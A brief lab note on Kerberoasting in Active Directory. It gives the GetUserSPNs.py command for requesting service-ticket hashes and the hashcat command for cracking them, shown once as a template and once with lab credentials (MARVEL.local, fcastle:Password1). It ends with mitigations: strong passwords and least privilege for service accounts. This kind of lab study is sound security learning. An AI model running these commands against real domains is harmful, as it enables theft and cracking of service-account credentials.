

## Process:

Step 1: Get SPNs, Dump Hash  
`python GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request`

Step 2: Crack the hash  
`Hashcat -m 13100 kerberoast.txt rockyou.txt`

## How I went about it

`sudo GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 192.168.138.136 -request`  

  

-> now all i did was, took this hash and cracked it using hashcat  

`hashcat -m 13100 krb.txt /usr/share/wordlist/rockyou.txt`   
  

## Mitigation

1. Strong Passwords
2. Least Privilege
	- Service Accounts should not be running as domain admins (VERY COMMON)
	- Do not store service acc passwords in the descriptions of the active directory account
